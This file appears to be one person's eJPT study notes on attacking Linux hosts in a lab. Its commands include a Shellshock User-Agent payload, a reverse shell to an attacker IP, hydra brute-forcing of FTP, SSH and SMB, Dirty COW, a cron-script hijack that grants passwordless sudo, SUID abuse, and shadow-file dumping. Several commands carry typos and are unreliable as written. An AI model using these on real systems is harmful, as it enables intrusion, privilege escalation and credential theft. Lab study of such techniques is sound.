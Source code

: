 # 08hakr's Short Notes eJPT
# 006 INE-Host-and-Network-Penetration-Testing-System-Host Based-Attacks Linux

## Linux Vulnerabilities Services
### Shellshock Linux
- Apache and Bash
- nmap -sV <target-ip>
- nmap --script=http-shellshock --script-args "http-shellshoock.uri=/gettime.cgi"
- capture in burpUser-Agent: () { :; }; echo; echo; /bin/bash -c 'catt /etc/passwd'
-  -c 'bash -i>&/dev/tcp/<attacker-ip>/<port> 0>&1'

- with metasploit- search shellshock
- auxiliary and exploit module
- set rhosts and targeturi /gettime.cgi

### Exploiting FTP 20 21
- hydra  -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt ftp://<target-ip> -t 4 ftp

### Exploiting SSH 22
- bruteforce
- metasploit module ssh_login
- hydra  -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt <target-ip> -t 4 ssh

## Exploiting SAMBA 445 on netBIOS 139
- nmap -sV <target-ip>
- hydra -l -P unix_password <target-ip> smb
- smbmap -H <target-ip> -u admin -p password1
- smbclient -L <target-ip> -U admin
- smbclient //<target-ip>/shawn -U admin to take smb SHell
- tar xzf flag.tar.gz
- enum4linux -a <target-ip>

## Linux Kernel Exploits
- linux exploit suggester
- sysinfo
- getuid
- shell /bin/bash/ -i- cat /etc/passwd
- download Linux-exploit-suggester
- upload /les.sh
- shell /bin/bash/ -i
- chmod +x les.sh
- ./les.sh
- download dirty cow
- compile it and upload to the target system
- ./dirty passwd
- if doesnt run then upload .c and compile on target
- run ssh with give password of firefart user
-
## Exploiting Cron Jobs
- whoami
- groups student
- crontab -l
- ls -al
- cd /
- grep -rnw /usr -e "/home/student/message"  checking any occurance of this file in any other file
- follow the steps where they leads you
- ls -al /usr/local/share/copy.sh
- printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- sudo -l
- corntab -l

## Exploiting SUID Binaries
- whoami
- groups student
- ls -al (take a look at S in permission its a thing that shows its SUID)
- file welcome
- string welcome
- rm greetings
- co /bin/bash greetings
- ./welcome

## Dumping Linux Password Hashes
- /etc/passwd Users account information
- /etc/shadow
- $1 MD5
- $2 Blowfish
- $5 SHA-256
- $6 SHA-512
- nmap -sV <taerget-ip>
- searchsploit proftpd
- 1.3.3c
- msfconsole
- search proft
- use set run
- /bin/bash -i
- ctrl+z background
- sessions
- sessions -u 1
- cat /etc/shadow
- search hashdump post/linux/gather/hashdump
- run
